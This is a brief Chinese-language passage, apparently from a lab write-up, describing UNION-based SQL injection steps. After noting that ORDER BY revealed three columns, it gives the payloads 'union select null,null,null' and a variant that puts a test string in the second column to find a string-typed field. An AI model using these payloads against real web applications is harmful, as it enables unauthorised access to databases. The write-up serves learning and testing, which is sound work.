 order by确定有三列

payload:

```javascript
'union+select+null,null,null--+
```

一次确定第二个字段为String类型

paylaod:

```javascript
'union+select+null,'aB4z0h',null--+
```

